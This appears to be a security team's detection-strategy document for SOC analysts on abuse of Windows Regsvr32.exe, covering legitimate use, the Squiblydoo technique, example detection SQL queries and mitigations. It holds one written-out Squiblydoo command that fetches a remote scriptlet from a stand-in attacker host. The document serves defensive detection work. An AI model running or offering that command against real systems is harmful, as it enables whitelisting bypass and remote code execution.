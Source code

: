 ### Alerting and Detection Strategy (ADS) for Malicious Use of Regsvr32 in Windows Environments

#### Overview

- **ADS ID**: ADS-2023-001
- **Title**: Detecting Malicious Use of Regsvr32 in Windows
- **Date Created**: September 3, 2023
- **Last Modified**: September 3, 2023
- **Version**: 1.0
- **Related ATT&CK Technique**: [T1218.010 - Regsvr32](https://attack.mitre.org/techniques/T1218/010/)
- **Author**: Cybersecurity Team
- **Rule TLP**: White

## Table of Contents
1. [Metadata](#Metadata)
2. [Table of Contents](#Table-of-Contents)
3. [Executive Summary](#Executive-Summary)
4. [Technical Context](#Technical-Context)
5. [Legitimate Use Cases](#Legitimate-Use-Cases)
6. [Malicious Use Cases](#Malicious-Use-Cases)
7. [Data Sources](#Data-Sources)
8. [Detection](#Detection)
9. [References](#References)

#### Objective

To provide a comprehensive guide for detecting malicious activities involving the use of `Regsvr32.exe` in Windows environments. This document aims to educate both junior and senior cybersecurity analysts in Security Operations Centers (SOCs) on the intricacies of `Regsvr32.exe` and how it can be abused.

#### Technical Context

##### What is Regsvr32?

`Regsvr32.exe` is a command-line utility in Windows used for registering and unregistering Object Linking and Embedding (OLE) controls, including Dynamic Link Libraries (DLLs). It is commonly located in `C:\\Windows\\System32\\`.

##### Legitimate Usage

In a legitimate context, `Regsvr32` is often used by administrators and software installers to register DLLs or ActiveX controls in the Windows Registry. The typical syntax for legitimate usage is:

\`\`\`bash
Regsvr32.exe /s /i somefile.dll
\`\`\`

##### Malicious Usage

###### Squiblydoo Attack

One of the most notorious techniques involving `Regsvr32` is the Squiblydoo attack. It allows an attacker to bypass application whitelisting defenses by loading a COM scriptlet from a remote server. The syntax is:

\`\`\`bash
Regsvr32.exe /u /n /s /i:http://evil.com/malicious.sct scrobj.dll
\`\`\`

###### COM Object Hijacking

`Regsvr32` can also be used to register a malicious COM Object for persistence via Component Object Model Hijacking.

###### Examples

- APT32 used `Regsvr32` to execute a COM scriptlet that dynamically downloaded a backdoor.
- Cobalt Group used `Regsvr32.exe` to execute scripts.

#### Data Sources

- Windows Event Logs
- Network Traffic Logs
- Endpoint Detection and Response (EDR) Logs

#### Detection Strategy

##### Indicators of Compromise (IoCs)

- Unusual network connections initiated by `Regsvr32.exe`.
- Registration or unregistration of suspicious or unknown DLLs.

##### Analytics

**Generic Regsvr32 Detection**

\`\`\`sql
SELECT * FROM process_events WHERE parent_process_name = 'regsvr32.exe' AND process_name != 'regsvr32.exe';
\`\`\`

**Squiblydoo Detection**

\`\`\`sql
SELECT * FROM process_events WHERE process_name = 'regsvr32.exe' AND command_line LIKE '%scrobj.dll%';
\`\`\`

#### Mitigations

- Use application control tools like Windows Defender Application Control to block unauthorized usage of `Regsvr32`.
- Employ network segmentation and firewall rules to restrict `Regsvr32` from making outbound connections.

#### References

- [MITRE ATT&CK: Regsvr32](https://attack.mitre.org/techniques/T1218/010/)
- [Red Canary: Technique T1117](https://redcanary.com/blog/3-technique-regsvr32-t1117/)
- [LOLBAS Project: Regsvr32](https://lolbas-project.github.io/lolbas/Binaries/Regsvr32/)
- [iRed Team: T1117 Regsvr32 aka Squiblydoo](https://www.ired.team/offensive-security/code-execution/t1117-regsvr32-aka-squiblydoo)

---

This document is intended to be a living resource. As new techniques and tactics are developed by adversaries, this ADS will be updated to reflect those changes.
